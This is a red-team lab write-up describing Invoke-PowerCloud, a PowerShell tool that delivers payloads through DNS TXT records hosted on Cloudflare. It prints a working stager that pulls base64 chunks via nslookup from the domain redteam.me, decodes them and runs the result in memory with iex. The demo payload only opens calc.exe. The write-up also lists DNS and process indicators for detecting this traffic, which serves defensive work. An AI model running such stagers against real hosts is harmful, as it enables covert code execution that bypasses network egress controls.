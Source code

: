 ```yaml
---
description: >-
  This lab demos a tool or rather a Powershell script I have written to do what
  the title says.
---
```


# Powershell Payload Delivery via DNS using Invoke-PowerCloud

## Credits

Rushing to say that the tool [Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) was heavily inspired by and based on the awesome work that Dominic Chell \([@domchell](https://twitter.com/domchell)\) from [MDSec](https://twitter.com/MDSecLabs) had done with [PowerDNS](https://github.com/mdsecactivebreach/PowerDNS) - go follow them and try out the [tool](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) if you are not doing so yet!

Not only that, I want to thank Dominic for taking his time to answer some of my questions regarding the PowerDNS, the setup and helping me troubleshoot it as I was having "some" issues getting the payload delivered to the target from the PowerDNS server.

...which eventually led me to Invoke-PowerCloud, so read on.

## What is Invoke-PowerCloud?

[Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) is a script that allows you to deliver a powershell payload using DNS TXT records to a target in an environment that is egress limited to DNS only.

## How is Invoke-PowerCloud different from PowerDNS?

I assume you have read [PowerShell DNS Delivery with PowerDNS](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) which explains how PowerDNS works.

Invoke-PowerCloud works in a similar fashion, except for a couple of key differences, which may simplify the configuration process of your infrastructure to start delivering paylods via DNS.   
  
**With PowerDNS you need:**

* a dedicated linux box with a public IP where you can run PowerDNS, so it can act as a DNS server
* you also need multiple domain names to get the nameservers configured properly

**With Invoke-PowerCloud you need:**

* a cloudflare.com account
* a domain name whose DNS management is transferred to cloudflare

## Cloudflare? eh?

The way the tool works is by performing the following high level steps:

* Take the powershell payload file and base64 encode it
* Divide the payload into chunks of 255 bytes
* Create a DNS zone file with DNS TXT records representing each chunk of the payload data retrieved from the previous step
* Send the generated DNS zone file to cloudflare using their APIs
* Generate two stagers for use with authoritative NS/non-authoritative NS
* Stager can then be executed on the victim system. The stager will recover the base64 chunks from the DNS TXT records and rebuild the original payload
* Stager executes the payload in memory!

{% hint style="info" %}
If you run the tool again to deliver another payload, the previous DNS TXT records will be deleted
{% endhint %}

## Demo

### One off Configuration

Remember - you need a cloudflare.com account for this to work. Assuming you have that, you need to edit the Invoke-PowerCloud as follows: 

1. your cloudflare API key, defined in the variable `$Global:API_KEY`
2. your cloudflare email address, defined in the variable `$Global:EMAIL`

![](../../.gitbook/assets/screenshot-from-2018-10-15-22-11-03%20%281%29.png)

### DNS Management

Secondly, you need to move the domain name which you are going to use for payload delivery to cloudflare. In this demo, I will use a domain I own `redteam.me` which is now managed by cloudflare:

![](../../.gitbook/assets/screenshot-from-2018-10-15-22-14-53.png)

Let's confirm redteam.me DNS is managed by cloudflare by issuing:

```text
host -t ns redteam.me
```

![](../../.gitbook/assets/screenshot-from-2018-10-15-22-16-20.png)

### Payload

Let's create a simple payload file - it will print a red message to the screen and open up a calc.exe:

{% tabs %}
{% tab title="payload.txt" %}
```csharp
Write-host -foregroundcolor red "This is our first payload using Invoke-
PowerCloud. As usual, let's pop the calc.exe"; Start-process calc.exe
```
{% endtab %}
{% endtabs %}

### Good to Go

We are now good to go - issue the below on your attacking system:

```csharp
PS C:\tools\powercloud> . .\powercloud.ps1; Invoke-PowerCloud -FilePath .\payload.txt -Domain redteam.me -Verbose
```

The script will generate two stagers. One of them is shown here:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
$b64=""; (1..1) | ForEach-Object { $b64+=(nslookup -q=txt "$_.redteam.me")[-1] }; iex([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String(($b64 -replace('\t|"',"")))))
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/screenshot-from-2018-10-15-22-47-26.png)

Let's execute the stager on the victim system to get the payload delivered via DNS:

![](../../.gitbook/assets/screenshot-from-2018-10-15-22-47-12.png)

### Animated Demo

Everything in action can be seen in the below gif:

![](../../.gitbook/assets/invoke-powercloud-demo.gif)

## Is Invoke-PowerCloud better than PowerDNS?

No. It just works slightly differently, but achieves the same end goal. Also note, that Cloudflare API rate limiting applies.

## Detection

Let's deliver a PowerShell empire payload using DNS and see how the system reacts to this:

![](../../.gitbook/assets/empire-stager-via-dns.gif)

For those wondering about detection possibilities, the following is a list of signs \(mix and match\) that may qualify the host behaviour as `suspicious` and warrant a further investigation:

* host "suddenly" bursted "many" `DNS TXT` requests to one domain
* DNS queries follow the naming convention of 1, 2, 3, ..., N
* majority of DNS answers contain `TXT Lenght` of `255` \(trivial to change/randomize\)
* DNS answers are all `TTL = 120` \(trivial to change/randomize\)
* TXT data in DNS answer has no white spaces \(easy to change\)
* host suddenly/in a short span of time spawned "many" `nslookup` processes
* has the endpoint changed once the DNS lookups stopped? i.e new processes spawned?

Below is a snippet of the PCAP showing DNS traffic from the above demo - note the TXT Length and the data itself:

![](../../.gitbook/assets/screenshot-from-2018-10-16-20-12-57.png)

Spike of `nslookup` for a host in a short amount of time:

![](../../.gitbook/assets/screenshot-from-2018-10-16-20-17-42.png)

Below is a sample PCAP for your inspection:

{% file src="../../.gitbook/assets/dns-packets.pcapng" caption="DNS Traffic Packet Trace" %}

## Download

You can download or contribute to Invoke-PowerCloud here:

{% embed url="https://github.com/mantvydasb/powercloud" %}

## References

{% embed url="https://github.com/mdsecactivebreach/PowerDNS" %}

{% embed url="https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/" %}

